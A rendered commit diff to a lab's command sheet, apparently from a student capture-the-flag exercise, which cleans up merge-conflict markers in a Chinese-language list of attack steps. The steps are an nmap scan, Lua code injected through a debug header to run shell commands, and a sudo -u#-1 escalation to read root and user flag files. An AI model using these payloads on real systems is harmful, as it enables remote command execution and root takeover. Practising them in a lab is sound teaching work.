

Before and after one commit to reyliou/412630567-Lab, a Markdown page: all_command.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Refine flag retrieval commands in all_command.md
Updated comments and commands for clarity in the flag retrieval section.

````diff
--- a/all_command.md
+++ b/all_command.md
@@ -21,7 +21,7 @@ alias jcurl='curl -s | python3 -c "import sys,json; d=json.load(sys.stdin); prin
 ## 第一階段：資訊挖掘
 
 ```bash
-# 掃描目標開放服務
+# 先掃描靶機，後掃描目標開放服務
 nmap -p 21,8080,8081 -sV $TARGET
 
 # BOLA - 存取隱藏商品 id=0
@@ -142,7 +142,6 @@ curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/
 
 ```bash
 # 生成 Flag（學號換成自己的）
-<<<<<<< HEAD
 jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 
@@ -152,16 +151,5 @@ jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/ap
 
 # 讀取 User Flag
 jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
-=======
-jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
-  http://$TARGET:8080/api/debug-system
-
-# 讀取 Root Flag
-jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c \\\\\\\"cat /root/root_flag.txt\\\\\\\"\\\"}\""):read("*a"))' \
-  http://$TARGET:8080/api/debug-system
-
-# 讀取 User Flag
-jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
->>>>>>> f27ac49028c8bcf445467167d139fa817729f1d5
   http://$TARGET:8080/api/debug-system
 ```
````
